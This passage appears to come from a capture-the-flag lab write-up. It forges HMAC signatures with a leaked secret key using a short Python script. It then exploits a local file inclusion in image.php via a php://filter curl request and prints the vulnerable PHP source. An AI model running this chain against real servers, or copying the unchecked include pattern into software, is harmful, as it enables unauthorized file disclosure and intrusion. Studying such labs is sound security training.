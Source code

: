 ### Now that we have the `SECRET_KEY`, we can easily calculate valid HMAC-SHA256 hashes for any path we want. Here’s a simple Python script to automate this:

```jsx
import hmac
import hashlib
import sys

secret_key = b"an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW"
path = sys.argv[1].encode()
h = hmac.new(secret_key, path, hashlib.sha256)
signature = h.hexdigest()
print(signature)
```

```jsx
└─$ python3 hash.py 'php://filter/convert.base64-encode/resource=image.php'    
ddc6eb77667e8f2dc36eeea2cb0883eb1ede14e6f6e32b6244256040dacfe5c6                                                                
┌──(neo㉿neo)-[~/pro/m]
└─$ 
```

```jsx
└─$ curl -s 'http://10.10.97.40/image.php?hash=ddc6eb77667e8f2dc36eeea2cb0883eb1ede14e6f6e32b6244256040dacfe5c6&path=php://filter/convert.base64-encode/resource=image.php' | base64 -d 
<?php

include('dbconfig.php');

    // Create a new PDO instance
    
    // Set PDO error mode to exception
    
    // Get the image ID from the query string
    
    // Fetch image path from the database based on the ID
    
    // Fetch image path
    $image_path = $_GET['path'];
    $hash= $_GET['hash'];

    $computed_hash=hash_hmac('sha256', $image_path, $SECRET_KEY);

    
    if ($image_path && $computed_hash === $hash) {
        // Get the MIME type of the image
        $image_info = @getimagesize($image_path);
        if ($image_info && isset($image_info['mime'])) {
            $mime_type = $image_info['mime'];
            // Set the appropriate content type header
            header("Content-type: $mime_type");
            
            // Output the image data
            include($image_path);
        } else {
            header("Content-type: application/octet-stream");
            include($image_path);
        }
    } else {
        echo "Image not found";
    }

?>
```